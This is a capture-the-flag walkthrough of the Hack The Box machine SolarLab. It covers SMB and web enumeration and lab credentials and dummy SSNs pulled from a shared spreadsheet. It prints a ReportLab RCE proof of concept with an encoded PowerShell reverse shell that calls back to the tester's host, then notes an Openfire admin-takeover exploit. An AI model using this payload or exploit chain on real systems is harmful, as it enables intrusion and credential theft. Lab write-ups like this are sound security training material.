

# Solar Lab - [HTB](https://app.hackthebox.com/machines/SolarLab)


## Nmap

```
PORT     STATE SERVICE       REASON  VERSION
80/tcp   open  http          syn-ack nginx 1.24.0
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: SolarLab Instant Messenger
|_http-server-header: nginx/1.24.0
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack
6791/tcp open  http          syn-ack nginx 1.24.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0
|_http-title: Did not follow redirect to http://report.solarlab.htb:6791/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-05-14T14:01:13
|_  start_date: N/A
|_clock-skew: -5m11s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 64857/tcp): CLEAN (Timeout)
|   Check 2 (port 37138/tcp): CLEAN (Timeout)
|   Check 3 (port 48381/udp): CLEAN (Timeout)
|   Check 4 (port 52237/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

## HTTP Enumeration

**http://report.solarlab.htb:6791**


Unfortunately couldn't log in, no credential was available.


## SMB Enumeration

Message signing enabled but not required.

```
$ smbclient --no-pass -L //10.10.11.16    

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Documents       Disk      
	IPC$            IPC       Remote IPC

```

`Documents` share was interesting so let's connect and list the contents of it.

```
$ smbclient --no-pass  //10.10.11.16/Documents
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Fri Apr 26 16:47:14 2024
  ..                                 DR        0  Fri Apr 26 16:47:14 2024
  concepts                            D        0  Fri Apr 26 16:41:57 2024
  desktop.ini                       AHS      278  Fri Nov 17 10:54:43 2023
  details-file.xlsx                   A    12793  Fri Nov 17 12:27:21 2023
  My Music                        DHSrn        0  Thu Nov 16 19:36:51 2023
  My Pictures                     DHSrn        0  Thu Nov 16 19:36:51 2023
  My Videos                       DHSrn        0  Thu Nov 16 19:36:51 2023
  old_leave_request_form.docx         A    37194  Fri Nov 17 10:35:57 2023

		7779839 blocks of size 4096. 1885790 blocks available
smb: \> 
```
There are some document files stored in the share. Let's download them and analyze.

## EXIF Metadata Analysis

- **old_leave_request_form.docx**
    ```
    ExifTool Version Number         : 12.76
    File Name                       : old_leave_request_form.docx
    Directory                       : .
    File Size                       : 37 kB
    File Modification Date/Time     : 2024:05:14 17:16:22+02:00
    File Access Date/Time           : 2024:05:14 17:20:03+02:00
    File Inode Change Date/Time     : 2024:05:14 17:16:22+02:00
    File Permissions                : -rw-r--r--
    File Type                       : DOCX
    File Type Extension             : docx
    MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
    Zip Required Version            : 20
    Zip Bit Flag                    : 0x0006
    Zip Compression                 : Deflated
    Zip Modify Date                 : 1980:01:01 00:00:00
    Zip CRC                         : 0x5c9ce90a
    Zip Compressed Size             : 483
    Zip Uncompressed Size           : 2460
    Zip File Name                   : [Content_Types].xml
    _NewReviewCycle                 : 
    Creator                         : Alison Melville
    Last Modified By                : Jackie
    Revision Number                 : 3
    Create Date                     : 2015:07:06 22:19:00Z
    Modify Date                     : 2015:08:03 16:50:00Z
    Template                        : Normal
    Total Edit Time                 : 1 minute
    Pages                           : 1
    Words                           : 142
    Characters                      : 814
    Application                     : Microsoft Office Word
    Doc Security                    : None
    Lines                           : 6
    Paragraphs                      : 1
    Scale Crop                      : No
    Heading Pairs                   : Title, 1
    Titles Of Parts                 : 
    Company                         : Greig Melville Associates Limited
    Links Up To Date                : No
    Characters With Spaces          : 955
    Shared Doc                      : No
    Hyperlinks Changed              : No
    App Version                     : 14.0000
    ```

- **details-file.xlsx**
    ```
    ExifTool Version Number         : 12.76
    File Name                       : details-file.xlsx
    Directory                       : .
    File Size                       : 13 kB
    File Modification Date/Time     : 2024:05:14 17:16:11+02:00
    File Access Date/Time           : 2024:05:14 17:21:24+02:00
    File Inode Change Date/Time     : 2024:05:14 17:16:11+02:00
    File Permissions                : -rw-r--r--
    File Type                       : XLSX
    File Type Extension             : xlsx
    MIME Type                       : application/vnd.openxmlformats-officedocument.spreadsheetml.sheet
    Zip Required Version            : 20
    Zip Bit Flag                    : 0x0006
    Zip Compression                 : Deflated
    Zip Modify Date                 : 1980:01:01 00:00:00
    Zip CRC                         : 0xd125f54a
    Zip Compressed Size             : 388
    Zip Uncompressed Size           : 1681
    Zip File Name                   : [Content_Types].xml
    Creator                         : College of Education
    Last Modified By                : Paul Serban
    Create Date                     : 2011:03:24 14:38:51Z
    Modify Date                     : 2023:11:17 12:27:21Z
    Application                     : Microsoft Excel
    Doc Security                    : None
    Scale Crop                      : No
    Heading Pairs                   : Worksheets, 3
    Titles Of Parts                 : Sheet1, Sheet2, Sheet3
    Company                         : Purdue University
    Links Up To Date                : No
    Shared Doc                      : No
    Hyperlinks Changed              : No
    App Version                     : 16.0300
    MSIP_Label_e463cba9-5f6c-478d-9329-7b2295e4e8ed_Enabled: true
    MSIP_Label_e463cba9-5f6c-478d-9329-7b2295e4e8ed_SetDate: 2023-11-17T10:41:19Z
    MSIP_Label_e463cba9-5f6c-478d-9329-7b2295e4e8ed_Method: Standard
    MSIP_Label_e463cba9-5f6c-478d-9329-7b2295e4e8ed_Name: All Employees_2
    MSIP_Label_e463cba9-5f6c-478d-9329-7b2295e4e8ed_SiteId: 33440fc6-b7c7-412c-bb73-0e70b0198d5a
    MSIP_Label_e463cba9-5f6c-478d-9329-7b2295e4e8ed_ActionId: c1afab2c-84d2-450d-9066-dcc727984137
    MSIP_Label_e463cba9-5f6c-478d-9329-7b2295e4e8ed_ContentBits: 0
    ```
    This file contains MIP Metadata which are part of `Microsoft Information Protection SDK - Metadata`. So it might contain some juicy informations.

- **Training-Request-Form.docx**
    ```
    ExifTool Version Number         : 12.76
    File Name                       : Training-Request-Form.docx
    Directory                       : .
    File Size                       : 161 kB
    File Modification Date/Time     : 2024:05:14 17:16:49+02:00
    File Access Date/Time           : 2024:05:14 17:20:39+02:00
    File Inode Change Date/Time     : 2024:05:14 17:16:49+02:00
    File Permissions                : -rw-r--r--
    File Type                       : DOCX
    File Type Extension             : docx
    MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
    Zip Required Version            : 20
    Zip Bit Flag                    : 0x0006
    Zip Compression                 : Deflated
    Zip Modify Date                 : 1980:01:01 00:00:00
    Zip CRC                         : 0xd2250c4f
    Zip Compressed Size             : 470
    Zip Uncompressed Size           : 2223
    Zip File Name                   : [Content_Types].xml
    Creator                         : Gayle.Rennie
    Last Modified By                : FRYATT, Susanne (WGPSN)
    Revision Number                 : 2
    Create Date                     : 2018:07:20 08:11:00Z
    Modify Date                     : 2018:07:20 08:11:00Z
    Template                        : Normal.dotm
    Total Edit Time                 : 44 minutes
    Pages                           : 1
    Words                           : 188
    Characters                      : 1078
    Application                     : Microsoft Office Word
    Doc Security                    : None
    Lines                           : 8
    Paragraphs                      : 2
    Scale Crop                      : No
    Heading Pairs                   : Title, 1
    Titles Of Parts                 : 
    Company                         : Wood Group
    Links Up To Date                : No
    Characters With Spaces          : 1264
    Shared Doc                      : No
    Hyperlinks Changed              : No
    App Version                     : 14.0000
    ```

- **Travel-Request-Sample.docx**
    ```
    ExifTool Version Number         : 12.76
    File Name                       : Travel-Request-Sample.docx
    Directory                       : .
    File Size                       : 31 kB
    File Modification Date/Time     : 2024:05:14 17:16:55+02:00
    File Access Date/Time           : 2024:05:14 17:21:02+02:00
    File Inode Change Date/Time     : 2024:05:14 17:16:55+02:00
    File Permissions                : -rw-r--r--
    File Type                       : DOCX
    File Type Extension             : docx
    MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
    Zip Required Version            : 20
    Zip Bit Flag                    : 0x0006
    Zip Compression                 : Deflated
    Zip Modify Date                 : 1980:01:01 00:00:00
    Zip CRC                         : 0x7d32bdda
    Zip Compressed Size             : 440
    Zip Uncompressed Size           : 1997
    Zip File Name                   : [Content_Types].xml
    Title                           : 
    Subject                         : 
    Creator                         : Paul Squillace
    Keywords                        : 
    Description                     : 
    Last Modified By                : Katy Brown
    Revision Number                 : 2
    Create Date                     : 2015:06:14 14:49:00Z
    Modify Date                     : 2015:06:14 14:49:00Z
    Template                        : Normal.dotm
    Total Edit Time                 : 1 minute
    Pages                           : 1
    Words                           : 351
    Characters                      : 2003
    Application                     : Microsoft Macintosh Word
    Doc Security                    : Read-only enforced
    Lines                           : 16
    Paragraphs                      : 4
    Scale Crop                      : No
    Heading Pairs                   : Title, 1
    Titles Of Parts                 : 
    Company                         : Microsoft
    Links Up To Date                : No
    Characters With Spaces          : 2350
    Shared Doc                      : No
    Hyperlinks Changed              : No
    App Version                     : 14.0000
    ```

## Credentials

The **details-file.xlsx** contained sensitive information.

```
Password File							
                            
Alexander's SSN		123-23-5424					
Claudia's SSN		820-378-3984					
Blake's SSN		739-1846-436
```					

                         
Site|	Account#|	Username|	Password|	Security Question|	Answer|	Email|	Other information
----|-----------|------------|-------------|-----------------|--------|-------|------------------
Amazon.com|	101-333	|Alexander.knight@gmail.com	|al;ksdhfewoiuh	|What was your mother's maiden name?	|Blue	|Alexander.knight@gmail.com	|
Pefcu|	A233J|	KAlexander|	dkjafblkjadsfgl|	What was your high school mascot|	Pine Tree|	Alexander.knight@gmail.com	|
Chase|		|Alexander.knight@gmail.com|	d398sadsknr390|	What was the name of your first pet?|	corvette|	Claudia.springer@gmail.com	|
Fidelity|		|blake.byte|	ThisCanB3typedeasily1@|	What was your mother's maiden name?|	Helena	blake@purdue.edu|	
Signa|		|AlexanderK	|danenacia9234n	|What was your mother's maiden name?	|Poppyseed muffins	|Alexander.knight@gmail.com	|account number: 1925-47218-30
|   |   |ClaudiaS	|dadsfawe9dafkn	|What was your mother's maiden name?	|yellow crayon	|Claudia.springer@gmail.com	|account number: 3872-03498-45
Comcast|	JHG3434|						
Vectren|	YUIO576						
Verizon|	1111-5555-33						


With the above credentials I tried to login to the `report.solarlab.htb:6791` and found a match. Apparently, the username structure for this organization is `Firstname + Lastname Initial`.

The matched credential is:
```
**********:ThisCanB3typedeasily1@
```

## Enumerating The Report Portal Dashboard


It was a portal for sending/approving leave request/vacation approval etc. After filling the form and **uploading a image** for attaching signature, Ait generated a pdf file.



Examining the generated pdf file with exiftool I discovered it was using `ReportLab PDF Library`.

```
ExifTool Version Number         : 12.76
File Name                       : output.pdf
Directory                       : .
File Size                       : 277 kB
File Modification Date/Time     : 2024:05:14 19:24:09+02:00
File Access Date/Time           : 2024:05:14 19:24:09+02:00
File Inode Change Date/Time     : 2024:05:14 19:24:09+02:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Author                          : (anonymous)
Create Date                     : 2024:05:14 20:18:13-02:00
Creator                         : (unspecified)
Modify Date                     : 2024:05:14 20:18:13-02:00
Producer                        : ReportLab PDF Library - www.reportlab.com
Subject                         : (unspecified)
Title                           : (anonymous)
Trapped                         : False
Page Mode                       : UseNone
Page Count                      : 1

```

A quick search for this library resulted in that this library maybe (because I couldn't determine the version of the library) vulnerable to an RCE. Read more about it on [BleepingComputer](https://www.bleepingcomputer.com/news/security/exploit-released-for-rce-flaw-in-popular-reportlab-pdf-library/).

A publicly available PoC was released on [Github](https://github.com/c53elyas/CVE-2023-33733).

The vulnerability was due to how it handled converting HTML to PDF (the flaw in xhtml2pdf).

**PoC:**
```
<para>
    <font
        color="[ [ getattr(pow,Word('__globals__'))['os'].system('powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4ANAA2ACIALAA5ADAAMAAxACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
        exploit
    </font>
</para>
```

**Delivery:**

The `justification` field is limited by 300 characters so it cannot be used also we cannot attach html file. And the date section is accepts date range. So that leaves `ome_office_request` parameter to deliver the payload.

## Foothold

We got a shell as blake and our user flag.

## PrivEsc Enumeration

I found a sqlite database inside the `app/instance` directory.

- **users.db**

    ```
    1	blakeb	ThisCanB3typedeasily1@
    2	claudias	007poiuytrewq
    3	alexanderk	HotP!fireguard
    ```

- **Current User Info**

    ```
    USER INFORMATION
    ----------------

    User Name      SID                                           
    ============== ==============================================
    solarlab\blake S-1-5-21-3606151065-2641007806-2768514320-1000


    GROUP INFORMATION
    -----------------

    Group Name                             Type             SID          Attributes                                        
    ====================================== ================ ============ ==================================================
    Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
    BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\BATCH                     Well-known group S-1-5-3      Mandatory group, Enabled by default, Enabled group
    CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
    LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
    Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                                    


    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                          State   
    ============================= ==================================== ========
    SeShutdownPrivilege           Shut down the system                 Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
    SeUndockPrivilege             Remove computer from docking station Disabled
    SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
    SeTimeZonePrivilege           Change the time zone                 Disable
    ```

- **Active Connections - Listening**

    ```
      TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4960
      TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       896
      TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       6008
      TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:6791           0.0.0.0:0              LISTENING       4960
      TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       660
      TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       528
      TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       728
      TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1564
      TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       652
      TCP    10.10.11.16:139        0.0.0.0:0              LISTENING       4
      TCP    127.0.0.1:5000         0.0.0.0:0              LISTENING       852
      TCP    127.0.0.1:5222         0.0.0.0:0              LISTENING       2996
      TCP    127.0.0.1:5223         0.0.0.0:0              LISTENING       2996
      TCP    127.0.0.1:5262         0.0.0.0:0              LISTENING       2996
      TCP    127.0.0.1:5263         0.0.0.0:0              LISTENING       2996
      TCP    127.0.0.1:5269         0.0.0.0:0              LISTENING       2996
      TCP    127.0.0.1:5270         0.0.0.0:0              LISTENING       2996
      TCP    127.0.0.1:5275         0.0.0.0:0              LISTENING       2996
      TCP    127.0.0.1:5276         0.0.0.0:0              LISTENING       2996
      TCP    127.0.0.1:7070         0.0.0.0:0              LISTENING       2996
      TCP    127.0.0.1:7443         0.0.0.0:0              LISTENING       2996
      TCP    127.0.0.1:9090         0.0.0.0:0              LISTENING       2996
      TCP    127.0.0.1:9091         0.0.0.0:0              LISTENING       2996
      TCP    [::]:135               [::]:0                 LISTENING       896
      TCP    [::]:445               [::]:0                 LISTENING       4
      TCP    [::]:5985              [::]:0                 LISTENING       4
      TCP    [::]:47001             [::]:0                 LISTENING       4
      TCP    [::]:49664             [::]:0                 LISTENING       660
      TCP    [::]:49665             [::]:0                 LISTENING       528
      TCP    [::]:49666             [::]:0                 LISTENING       728
      TCP    [::]:49667             [::]:0                 LISTENING       1564
      TCP    [::]:49668             [::]:0                 LISTENING       652
    ```

- **Running Services on Local Interface**
  
    ```
    get-process -id 2996

    Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                  
    -------  ------    -----      -----     ------     --  -- -----------                                                  
        967      87   318252     212752              2996   0 openfire-service  
    ```

- **Users on the Local Machine**
  
    ```
    User accounts for \\SOLARLAB

    -------------------------------------------------------------------------------
    Administrator            blake                    DefaultAccount           
    Guest                    openfire                 WDAGUtilityAccount 
    ```

- **Openfire 4.7.4**

    Openfire is running on port 9090 let's use chisel to forward the port.

    Openfire version was 4.7.4 vulnerable to Admin Account Takeover. [PoC](https://github.com/miko550/CVE-2023-32315)

    After successful exploitation got a shell as `openfire`. Testing credentials using the `users.db` I found a match.

    ```
    openfire:********
    ```

    Found a script inside embedded-db folder.

    **openfire.properties**

    ```
    SET DATABASE UNIQUE NAME HSQLDB8BDD3B2742
    SET DATABASE GC 0
    SET DATABASE DEFAULT RESULT MEMORY ROWS 0
    SET DATABASE EVENT LOG LEVEL 0
    SET DATABASE TRANSACTION CONTROL LOCKS
    SET DATABASE DEFAULT ISOLATION LEVEL READ COMMITTED
    SET DATABASE TRANSACTION ROLLBACK ON CONFLICT TRUE
    SET DATABASE TEXT TABLE DEFAULTS ''
    SET DATABASE SQL NAMES FALSE
    SET DATABASE SQL REFERENCES FALSE
    SET DATABASE SQL SIZE TRUE
    SET DATABASE SQL TYPES FALSE
    SET DATABASE SQL TDC DELETE TRUE
    SET DATABASE SQL TDC UPDATE TRUE
    SET DATABASE SQL CONCAT NULLS TRUE
    SET DATABASE SQL UNIQUE NULLS TRUE
    SET DATABASE SQL CONVERT TRUNCATE TRUE
    SET DATABASE SQL AVG SCALE 0
    SET DATABASE SQL DOUBLE NAN TRUE
    SET FILES WRITE DELAY 1
    SET FILES BACKUP INCREMENT TRUE
    SET FILES CACHE SIZE 10000
    SET FILES CACHE ROWS 50000
    SET FILES SCALE 32
    SET FILES LOB SCALE 32
    SET FILES DEFRAG 0
    SET FILES NIO TRUE
    SET FILES NIO SIZE 256
    SET FILES LOG TRUE
    SET FILES LOG SIZE 20
    CREATE USER SA PASSWORD DIGEST 'd41d8cd98f00b204e9800998ecf8427e'
    ALTER USER SA SET LOCAL TRUE
    CREATE SCHEMA PUBLIC AUTHORIZATION DBA
    SET SCHEMA PUBLIC
    CREATE MEMORY TABLE PUBLIC.OFUSER(USERNAME VARCHAR(64) NOT NULL,STOREDKEY VARCHAR(32),SERVERKEY VARCHAR(32),SALT VARCHAR(32),ITERATIONS INTEGER,PLAINPASSWORD VARCHAR(32),ENCRYPTEDPASSWORD VARCHAR(255),NAME VARCHAR(100),EMAIL VARCHAR(100),CREATIONDATE VARCHAR(15) NOT NULL,MODIFICATIONDATE VARCHAR(15) NOT NULL,CONSTRAINT OFUSER_PK PRIMARY KEY(USERNAME))
    CREATE INDEX OFUSER_CDATE_IDX ON PUBLIC.OFUSER(CREATIONDATE)
    CREATE MEMORY TABLE PUBLIC.OFUSERPROP(USERNAME VARCHAR(64) NOT NULL,NAME VARCHAR(100) NOT NULL,PROPVALUE VARCHAR(4000) NOT NULL,CONSTRAINT OFUSERPROP_PK PRIMARY KEY(USERNAME,NAME))
    CREATE MEMORY TABLE PUBLIC.OFUSERFLAG(USERNAME VARCHAR(64) NOT NULL,NAME VARCHAR(100) NOT NULL,STARTTIME VARCHAR(15),ENDTIME VARCHAR(15),CONSTRAINT OFUSERFLAG_PK PRIMARY KEY(USERNAME,NAME))
    CREATE INDEX OFUSERFLAG_STIME_IDX ON PUBLIC.OFUSERFLAG(STARTTIME)
    CREATE INDEX OFUSERFLAG_ETIME_IDX ON PUBLIC.OFUSERFLAG(ENDTIME)
    CREATE MEMORY TABLE PUBLIC.OFOFFLINE(USERNAME VARCHAR(64) NOT NULL,MESSAGEID BIGINT NOT NULL,CREATIONDATE VARCHAR(15) NOT NULL,MESSAGESIZE INTEGER NOT NULL,STANZA VARCHAR(16777216) NOT NULL,CONSTRAINT OFOFFLINE_PK PRIMARY KEY(USERNAME,MESSAGEID))
    CREATE MEMORY TABLE PUBLIC.OFPRESENCE(USERNAME VARCHAR(64) NOT NULL,OFFLINEPRESENCE VARCHAR(16777216),OFFLINEDATE VARCHAR(15) NOT NULL,CONSTRAINT OFPRESENCE_PK PRIMARY KEY(USERNAME))
    CREATE MEMORY TABLE PUBLIC.OFROSTER(ROSTERID BIGINT NOT NULL,USERNAME VARCHAR(64) NOT NULL,JID VARCHAR(1024) NOT NULL,SUB INTEGER NOT NULL,ASK INTEGER NOT NULL,RECV INTEGER NOT NULL,NICK VARCHAR(255),STANZA VARCHAR(16777216),CONSTRAINT OFROSTER_PK PRIMARY KEY(ROSTERID))
    CREATE INDEX OFROSTER_USERNAME_IDX ON PUBLIC.OFROSTER(USERNAME)
    CREATE INDEX OFROSTER_JID_IDX ON PUBLIC.OFROSTER(JID)
    CREATE MEMORY TABLE PUBLIC.OFROSTERGROUPS(ROSTERID BIGINT NOT NULL,RANK INTEGER NOT NULL,GROUPNAME VARCHAR(255) NOT NULL,CONSTRAINT OFROSTERGROUPS_PK PRIMARY KEY(ROSTERID,RANK))
    CREATE INDEX OFROSTERGROUP_ROSTERID_IDX ON PUBLIC.OFROSTERGROUPS(ROSTERID)
    CREATE MEMORY TABLE PUBLIC.OFVCARD(USERNAME VARCHAR(64) NOT NULL,VCARD VARCHAR(16777216) NOT NULL,CONSTRAINT OFVCARD_PK PRIMARY KEY(USERNAME))
    CREATE MEMORY TABLE PUBLIC.OFGROUP(GROUPNAME VARCHAR(50) NOT NULL,DESCRIPTION VARCHAR(255),CONSTRAINT OFGROUP_PK PRIMARY KEY(GROUPNAME))
    CREATE MEMORY TABLE PUBLIC.OFGROUPPROP(GROUPNAME VARCHAR(50) NOT NULL,NAME VARCHAR(100) NOT NULL,PROPVALUE VARCHAR(4000) NOT NULL,CONSTRAINT OFGROUPPROP_PK PRIMARY KEY(GROUPNAME,NAME))
    CREATE MEMORY TABLE PUBLIC.OFGROUPUSER(GROUPNAME VARCHAR(50) NOT NULL,USERNAME VARCHAR(100) NOT NULL,ADMINISTRATOR INTEGER NOT NULL,CONSTRAINT OFGROUPUSER_PK PRIMARY KEY(GROUPNAME,USERNAME,ADMINISTRATOR))
    CREATE MEMORY TABLE PUBLIC.OFID(IDTYPE INTEGER NOT NULL,ID BIGINT NOT NULL,CONSTRAINT OFID_PK PRIMARY KEY(IDTYPE))
    CREATE MEMORY TABLE PUBLIC.OFPROPERTY(NAME VARCHAR(100) NOT NULL,PROPVALUE VARCHAR(4000) NOT NULL,ENCRYPTED INTEGER,IV CHARACTER(24),CONSTRAINT OFPROPERTY_PK PRIMARY KEY(NAME))
    CREATE MEMORY TABLE PUBLIC.OFVERSION(NAME VARCHAR(50) NOT NULL,VERSION INTEGER NOT NULL,CONSTRAINT OFVERSION_PK PRIMARY KEY(NAME))
    CREATE MEMORY TABLE PUBLIC.OFEXTCOMPONENTCONF(SUBDOMAIN VARCHAR(255) NOT NULL,WILDCARD INTEGER NOT NULL,SECRET VARCHAR(255),PERMISSION VARCHAR(10) NOT NULL,CONSTRAINT OFEXTCOMPONENTCONF_PK PRIMARY KEY(SUBDOMAIN))
    CREATE MEMORY TABLE PUBLIC.OFREMOTESERVERCONF(XMPPDOMAIN VARCHAR(255) NOT NULL,REMOTEPORT INTEGER,PERMISSION VARCHAR(10) NOT NULL,CONSTRAINT OFREMOTESERVERCONF_PK PRIMARY KEY(XMPPDOMAIN))
    CREATE MEMORY TABLE PUBLIC.OFPRIVACYLIST(USERNAME VARCHAR(64) NOT NULL,NAME VARCHAR(100) NOT NULL,ISDEFAULT INTEGER NOT NULL,LIST VARCHAR(16777216) NOT NULL,CONSTRAINT OFPRIVACYLIST_PK PRIMARY KEY(USERNAME,NAME))
    CREATE INDEX OFPRIVACYLIST_DEFAULT_IDX ON PUBLIC.OFPRIVACYLIST(USERNAME,ISDEFAULT)
    CREATE MEMORY TABLE PUBLIC.OFSASLAUTHORIZED(USERNAME VARCHAR(64) NOT NULL,PRINCIPAL VARCHAR(4000) NOT NULL,CONSTRAINT OFSASLAUTHORIZED_PK PRIMARY KEY(USERNAME,PRINCIPAL))
    CREATE MEMORY TABLE PUBLIC.OFSECURITYAUDITLOG(MSGID BIGINT NOT NULL,USERNAME VARCHAR(64) NOT NULL,ENTRYSTAMP BIGINT NOT NULL,SUMMARY VARCHAR(255) NOT NULL,NODE VARCHAR(255) NOT NULL,DETAILS VARCHAR(16777216),CONSTRAINT OFSECURITYAUDITLOG_PK PRIMARY KEY(MSGID))
    CREATE INDEX OFSECURITYAUDITLOG_TSTAMP_IDX ON PUBLIC.OFSECURITYAUDITLOG(ENTRYSTAMP)
